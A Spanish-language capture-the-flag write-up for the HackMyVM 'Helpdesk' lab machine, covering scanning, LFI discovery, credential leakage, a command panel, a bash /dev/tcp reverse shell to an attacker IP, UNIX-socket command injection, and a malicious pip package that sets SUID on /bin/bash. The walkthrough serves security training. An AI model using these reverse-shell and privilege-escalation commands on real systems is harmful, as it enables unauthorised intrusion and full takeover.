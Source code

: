 # Helpdesk - Writeup HackMyVm

El día de hoy veremos cómo resolver la máquina **Helpdesk** de la
plataforma HackMyVM.\
Durante la explotación tocaremos las siguientes técnicas:

-   Escaneo de puertos
-   Enumeración de directorios
-   Fuzzing para descubrir un parámetro PHP
-   LFI (Local File Inclusion)
-   Abuso de sockets UNIX
-   Escalada de privilegios con `pip3`

## Enumeración

Comenzamos con un escaneo de puertos con **nmap**:

``` bash
sudo nmap -p- --open -sSCV --min-rate 5000 -n -Pn 192.168.1.156
```

``` java
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 b4:bc:42:f6:d0:a7:0d:fd:71:01:3d:8a:c5:0c:ac:e3 (ECDSA)
|_  256 71:90:08:58:14:04:09:d5:cf:31:ee:87:17:ad:29:8f (ED25519)
80/tcp open  http    Apache httpd
|_http-server-header: Apache
|_http-title: HelpDesk Ticket System

Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

En el puerto 80 se muestra un sistema de HelpDesk muy limitado:

![alt text](img/helpdesk001.png)

Pasamos a enumerar directorios con **gobuster**:

``` bash
gobuster dir -u http://192.168.1.156/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -x php,html -t 20
```

Resultados interesantes:

    /login.php   (Status: 200)
    /ticket.php  (Status: 200)
    /panel.php   (Status: 302 -> login.php)
    /debug.php   (Status: 200)

En `/debug.php` aparecen credenciales falsas (honeypot).\
En `/ticket.php` solo aparece el texto *"Ticket Viewer"* vacío:

![alt text](img/helpdesk002.png)

Esto sugiere que el archivo podría aceptar parámetros. Probamos fuzzing
con **ffuf**:

``` bash
ffuf -u 'http://192.168.1.156/ticket.php?FUZZ=../../../../../../../../etc/passwd' -w /usr/share/wordlists/SecLists/Discovery/Web-Content/burp-parameter-names.txt -fs 204
```

Encontramos un parámetro vulnerable a **LFI**:

![alt text](img/helpdesk003.png)

## Explotación

Explorando archivos del sistema vía LFI, en `login.php` encontramos
comentarios con credenciales en texto claro:

![alt text](img/helpdesk004.png)

Accedemos con ellas en `/login.php` y entramos a `/panel.php`, donde hay
ejecución de comandos:

![alt text](img/helpdesk005.png)

Nos enviamos una reverse shell:

``` bash
nc -lvnp 9001
```

``` bash
bash -i >& /dev/tcp/192.168.1.152/9001 0>&1
```

``` bash
Ncat: Connection from 192.168.1.156
www-data@helpdesk:/var/www/html$
```

## Escalada de privilegios

En `/opt` encontramos un servicio con **sockets UNIX**:

``` bash
www-data@helpdesk:/opt/helpdesk-socket$ ls -la
-rwxr-xr-x 1 helpdesk helpdesk  158 Aug 16 15:32 handler.sh
srwxrwxrwx 1 helpdesk helpdesk    0 Aug 24 17:38 helpdesk.sock
-rw-r--r-- 1 root     root      184 Aug 16 15:44 serve.sh
```

Podemos enviar comandos al socket con **socat**:

``` bash
echo "id" | socat - UNIX-CONNECT:/opt/helpdesk-socket/helpdesk.sock
```

``` bash
uid=1001(helpdesk) gid=1001(helpdesk) groups=1001(helpdesk)
```

Esto nos permite ejecutar comandos como **helpdesk**.\
Nos mandamos una shell como ese usuario:

``` bash
echo 'bash -i >& /dev/tcp/192.168.1.152/9001 0>&1' | socat - UNIX-CONNECT:/opt/helpdesk-socket/helpdesk.sock
```

``` bash
helpdesk@helpdesk:/$
```

Comprobamos permisos sudo:

``` bash
sudo -l
```

    User helpdesk may run the following commands on helpdesk:
        (ALL) NOPASSWD: /usr/bin/pip3 install --break-system-packages *

Podemos abusar de esto creando un paquete Python malicioso.

### Paquete Malicioso

En la máquina atacante:

``` bash
mkdir -p paquete_malicioso/paquete_malicioso
cd paquete_malicioso
```

``` python
echo 'import os; os.system("chmod +s /bin/bash")' > paquete_malicioso/__init__.py
```

``` python
echo "from setuptools import setup, find_packages; setup(name='paquete_malicioso', version='0.1.0', packages=find_packages())" > setup.py
```

``` bash
python3 setup.py sdist
python3 -m http.server 8000
```

En la víctima:

``` bash
wget http://192.168.1.152:8000/dist/paquete_malicioso-0.1.0.tar.gz
sudo /usr/bin/pip3 install --break-system-packages ./paquete_malicioso-0.1.0.tar.gz
```

Esto le da el bit SUID a `/bin/bash`.\
Ejecutamos:

``` bash
bash -p
```

¡Y somos root! 🎉